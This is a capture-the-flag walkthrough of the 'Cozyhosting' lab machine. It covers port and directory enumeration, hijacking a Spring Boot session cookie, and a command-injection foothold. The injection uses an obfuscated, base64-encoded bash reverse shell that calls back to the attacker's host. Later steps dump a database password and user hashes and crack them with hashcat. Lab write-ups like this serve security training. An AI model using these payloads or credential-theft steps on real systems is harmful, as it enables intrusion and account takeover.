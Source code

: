 # Cozyhosting

## Enumeration

### NMAP

```
nmap -sCV -T5 10.129.229.88
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-19 13:26 PST
Warning: 10.129.229.88 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.229.88
Host is up (0.089s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE      VERSION
22/tcp   open     ssh          OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp   open     http         nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
1201/tcp filtered nucleus-sand
1594/tcp filtered sixtrak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.71 seconds
```

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

### FeroxBuster



```
feroxbuster -u http://cozyhosting.htb -x pdf -x js,html -x php txt json,docx
```

### DirSearch

```
dirsearch -u http://cozyhosting.htb
```

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

### Web Enumeration

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

The web page seems to be running Spring Boot

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

## Foothold

It seems that we can view the sessions

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Paste in kandersons cookie and hit refresh on the browser

### Command Injection

Capture the request to add a host name and identify that command injection is plausible&#x20;

<figure><img src=".gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

generate the payload for the reverse shell

<figure><img src=".gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

```rust
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzQ0NDQgMD4mMQ=="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

```

URL Encode Key Characters in Burp

### Reverseshell

<figure><img src=".gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

and catch shell in NC listener

<figure><img src=".gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

## Privledge Esc from app

<figure><img src=".gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

### jd-gui

<figure><img src=".gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

### Postgres DB

```
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Stabilize the shell

```
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
Password for user postgres:
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

```
-l
```

<figure><img src=".gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Database cozyhosting

<figure><img src=".gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

```
\d
```

<figure><img src=".gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

```
select * from users;
```

<figure><img src=".gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

### Hashcat

```
hashcat -a 0 -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```

```
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

This was not the admin password like it states but we have a user named josh

```
app@cozyhosting:/home$ ls
josh
app@cozyhosting:/home$
```

<figure><img src=".gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

## Privilege Esc from Josh to Root

<figure><img src=".gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>
